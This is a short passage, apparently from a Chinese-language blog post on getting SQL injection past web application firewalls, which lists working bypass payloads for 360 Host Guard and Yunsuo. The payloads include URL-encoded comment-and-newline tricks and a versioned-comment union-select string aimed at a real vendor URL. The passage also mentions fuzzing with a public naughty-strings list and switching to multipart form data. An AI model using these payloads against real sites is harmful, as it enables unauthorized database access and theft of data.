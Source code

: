 ![image](/images/posts/sql-injection-fuck-waf/3.png)
- 360主机卫士bypass   
发现%23%0aand%230a1=1    可以绕过and 1=1 限制  
最后在union select from的时候却绕不过去    
直接使用大字符串来fuzz %23-FUZZ-%0a https://github.com/minimaxir/big-list-of-naughty-strings/blob/master/blns.txt 发现可以成功绕过waf  
![image](/images/posts/sql-injection-fuck-waf/4.png)
- 云锁  
union select 如下就可以绕过  
http://www.yunsuo.com.cn/download.html?id=1%20union/*!/*!select%201,2,3*/  
转换成multiform/data可轻松绕过 